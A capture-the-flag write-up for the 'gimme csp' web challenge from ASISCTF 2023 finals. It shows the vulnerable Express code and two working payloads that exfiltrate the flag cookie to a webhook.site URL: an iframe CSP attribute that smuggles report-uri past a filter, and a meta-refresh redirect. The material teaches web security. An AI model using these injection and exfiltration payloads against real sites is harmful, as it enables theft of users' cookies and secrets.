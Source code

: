 ```yaml
---
title: gimme csp
date: 2024-01-08
tags: 
- web
- author-hartmannsyg
categories: ASISCTF 2023
---
```


written by {% person hartmannsyg %}

This was the *warm-up* web challenge of ASISCTF 2023 **finals**, but personally I found this to be quite hard. I didn't solve this in time but I'll just write the solution here anyways.

> hint for beginners: read about CSPs and iframes and what features they can offer that you can use to *bypass* or *exfiltrate* things. The challenge isn't easy if you are new to CTFs or don't have much experience however it *should* be the easiest web challenge.

{% ccb %}
website: https://gimmecsp.asisctf.com
Admin bot: http://18.195.96.13:8001
{% endccb %}

## Intended Solution - csp violation report

The website code is as follows:
{% ccb lang:js gutter1:1-21 caption:index.js highlight:9 %}
const express = require('express')
const cookieParser = require('cookie-parser')

const app = express()
app.use(cookieParser())
app.use((req,res,next)=>{
	res.header(
		'Content-Security-Policy',
		[`default-src 'none';`, ...[(req.headers['sec-required-csp'] ?? '').replaceAll('script-src','')]] 
	)
	if(req.headers['referer']) return res.type('text/plain').send('You have a typo in your http request')
	next()
})

app.get('/',(req,res)=>{
	let gift = req.cookies.gift ?? 'ASIS{test-flag}'
	let letter = (req.query.letter ?? `You were a good kid in 2023 so here's a gift for ya: $gift$`).toString()
	res.send(`<pre>${letter.replace('$gift$',gift)}</pre>`)
})

app.listen(8000)
{% endccb %}

Firstly, you are simply able to inject html into https://gimmecsp.asisctf.com site. 

E.g. `https://gimmecsp.asisctf.com/?letter=<h1>a</h1>` gives

```html
<pre><h1>a</h1></pre>
```

`https://gimmecsp.asisctf.com/` has:
{% ccb %}
Content-Security-Policy: default-src 'none';
{% endccb %}
so it seems virtually impregnable. However, in the highlighted line in the above code box, we see that the `sec-required-csp` headers get stripped of all `script-src`, which allows us to sneak in some csp.

Normally, in a iframe, it is [impossible to specify the `report-uri` or `report-to` csps](https://w3c.github.io/webappsec-cspee/#csp-attribute). However, if we do something sneaky like:
{% ccb html:true %}
rep<span class='keyword'>script-src</span>ort-uri
    ⬇️
report-uri
{% endccb %}

so we can craft a payload that sneaks in the report-uri:

{% ccb lang:html wrapped:true %}
<iframe referrerpolicy="no-referrer" src='https://gimmecsp.asisctf.com/?letter=<img src="$gift$">' csp="default-src 'none'; repscript-srcort-uri https://webhook.site/<hook>"></iframe>
{% endccb %}

The CSP then becomes:
{% ccb %}
Content-Security-Policy: default-src 'none'; report-uri https://webhook.site/<hook>
{% endccb %}

The report-uri *reports* any violation of csp to the specified url. In this case, we are violating csp by accessing `/$gift`, which is processed to `/ASIS{test-flag}` or to the real flag on the admin bot. So we will receive 

We then host a html document that has the following payload, report it to the admin bot and in our webhook we get:
{% ccb lang:json gutter1:1-15 highlight:9 %}
{
  "csp-report": {
    "document-uri": "https://gimmecsp.asisctf.com/?letter=%3C/pre%3E%3Cimg%20src=%22$gift$%22%3E",
    "referrer": "",
    "violated-directive": "img-src",
    "effective-directive": "img-src",
    "original-policy": "default-src 'none'; report-uri https://webhook.site/<hook>",
    "disposition": "enforce",
    "blocked-uri": "https://gimmecsp.asisctf.com/ASIS%7B1m-n07-r34dy-f0r-2024-y3t-dfadb%7D",
    "line-number": 1,
    "source-file": "https://gimmecsp.asisctf.com/",
    "status-code": 200,
    "script-sample": ""
  }
}
{% endccb %}

the flag is `ASIS{1m-n07-r34dy-f0r-2024-y3t-dfadb}`

## `<meta>` redirect solution

CSPs cannot block meta redirects, so submitting something like `https://gimmecsp.asisctf.com/?letter=<meta http-equiv="refresh" content="0; url=https://webhook.site/<hook>/$gift$">` will create the following html:

```html
<pre><meta http-equiv="refresh" content="0; url=https://webhook.site/<hook>/ASIS{test-flag}"></pre>
```

and redirect to `https://webhook.site/<hook>/ASIS{test-flag}`, giving us the flag (the `test-flag` will be replaced with the real flag when submitted to the admin bot)